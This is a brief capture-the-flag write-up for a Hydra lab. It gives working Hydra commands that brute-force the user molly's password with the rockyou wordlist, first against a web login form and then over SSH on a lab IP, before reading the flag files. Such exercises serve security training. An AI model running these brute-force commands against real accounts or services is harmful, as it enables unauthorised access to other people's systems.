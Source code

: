 
# Hydra writeup

### Task 1 
#### Use Hydra to bruteforce molly's web password. What is flag 1?

- To complete first task we need to use Hydra tool. The command to bruteforce login to website will be:
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
- Then login to page using login and password and you will get the flag

### Task 2
#### Use Hydra to bruteforce molly's SSH password. What is flag 2?
- To complete second task we have to change our command to bruteforce SSH:
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 -t 4 ssh
```
- Then we have to ssh to given machine using password we bruteforced.
```
ssh molly@<MACHINE-IP>
```
- Then simply cat flag2.txt



